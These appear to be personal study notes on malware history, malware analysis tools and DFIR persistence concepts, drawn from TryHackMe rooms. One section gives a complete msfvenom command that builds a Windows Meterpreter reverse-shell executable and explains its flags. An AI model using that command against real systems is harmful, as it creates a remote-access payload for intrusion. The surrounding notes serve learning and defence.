 1. ###### History ([room](https://tryhackme.com/room/historyofmalware))
- malware = malicious software
- 1971 - first malware - Creeper
- 1973 - first "antivirus" - Reaper (was created to remove any copy of Creeper)
- 1974 - Wabbit - reproducing as fast as rabbits → computer would choke on their own resources; did not spread through network
- 1975 - ANIMAL - first Trojan
- 1982 - Elf Cloner - first microcomputer virus, boot sector virus, spread to US Navy
- 1986 - Computer Fraud and Abuse act

2. ###### Intro ([room](https://tryhackme.com/room/malmalintroductory))
- when analysing it's important to consider: 
	- Point of Entry
	- indicators of malware being executed on a machine
	- what does the malware do
- attacks - targeted vs. mass campain
- malware attack process breakdown:
	1. Delivery
		- USB, PDF attachment,...
	2. Execution
		- what does it do - encypting files, logs keystrokes, displays ads,...
	3. Maintaining persistence (not always the case)
	4. Propagation (not always)
- two categories of fingerprints:
	- host-based signatures - results of execution and any ppersistence performed by malware
	- network-based signatures - network communication taking place during delivery, delivery and propagation
- two types of malware analysis:
	- static 
		- gaining high level abstraction of the sample
		- PE Explorer, PeID, IDA, WinDg
	- dynamic - usualy involves executing the sample

3. ###### Analysis- 
	1. Static analysis
	- MD5 checksum
		- on Windows: [HashTab](http://implbits.com/products/hashtab/)
		- in Linux: md5checksum or md5deep
		- lookup the MD5 checksum - Virustotal,...
	- identify the compiler/packer of a file
		- PeID (W), [Detect it Easy](https://github.com/horsicq/Detect-It-Easy) (L)
		- packing is a form of obfuscation
		- in IDA - check Imports - obfuscated code has little to no Imports
	- strings ([room](https://tryhackme.com/room/malstrings))
		- text/numbers contents of a program
		- can contains credentials, Bitcoin addreses
		- SysInternalsSuite → Strings (W), strings (L)
	- imports
		- PE Explorer (W GUI), IDA
	- automated analysis with [[binwalk]]
	- more condensed summary with [[exiftool]]

1. ###### Research ([room](https://tryhackme.com/room/malresearching))
- checksums + VirusTotal
- online sandboxes - [any.run](https://any.run/), [hybrid-analysis](https://hybrid-analysis.com/)



##### Create Malicious Executable
- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=<host_IP> LPORT=<destination_port> -f exe -o maliciousfile.exe`
	- `-a`: architecture
	- `--platform`: windons/linux
	- `-p`: payload
	- `-f`: file extension
	- `-o`: output file

##### DFIR Training
- 3 general concepts w/ malware:
	1. starting
		- persistent vs one time
		- triggered
			- the OS is configured to launch the malicious exe/service based on some event (system startup, user login, schedule,...)
		- trick launch
			- convince the user to run the process, eg. replace existing program w/ malware, place malware in folder such that a normal process will launch it instead of the intended exe
		- trick loading
			- tricks a process to load a malicious library
		- data injection
			- exploit process that does not check validity of its inputs
	2. hiding
		- hide itself - modify OS data structures to make it invisible from some APIs
		- parasite - pick an innocent process, take over control, start malicious threads in it and exit original process
		- hollowing - start a process for a purpose of taking it over
		- ...
	3. doing bad things
-  is there Single Artifact Category? → No
	-  break it up:
		-  startup - Are there malicious persistence mechanisms?
		-  running - Are there malicious processes running?
		-  remnants - Are there signs that malware was run?
1. Persistence
	- how to identify if a program/process/library is malicious?
		-  Thread Inteligence: It the program's hash on a "known bad" list?
		-  Statis analysis: Does the program have byte-level signatures from previous malware? 
		-  Dynamic analysis: Does the program have malicious behaviour?
		-  Reverse Engineering: Does the program have instructions that are malicious? 
	-  triggered (malicious triggered programs)
		-  Triggered Program Artifacts Store:
			-  path to program to be launched, trigger (startup, at login,...), user/privilege (is it a service?), (a date of creation)
			-  lots of places: Registry, Startup Folder, Scheduled Tasks, WMI Actions,...
		-  how to analyze:
			-  need to analyze the program instructions - engines, sandboxes,...
			-  prioritize the files based on: the the program normally there? is the program in a suspicious location? does the trigger/program have times similar to the incident? is the program signed by a legitimate authority? is the program on other systems in the enterprise?
	-  trick launch (malicious programs that could get accidentaly launched)
		-  no Single Artifacts Store → too many ways to trick someone/something - exes in path, exes in attachments, shortcuts
			-  → but can be explored by previous techniques
	-  trick loading (malicious libraries that could get accidentaly loaded)
		-  Artifact category (eh not Single)
			-  LoadLibraryPathFile - contains the libraries in the load path
			-  BUT load libraries often include the same folder as the exe - its relative → we need to consider nearly every library
2. Running
3. Remnants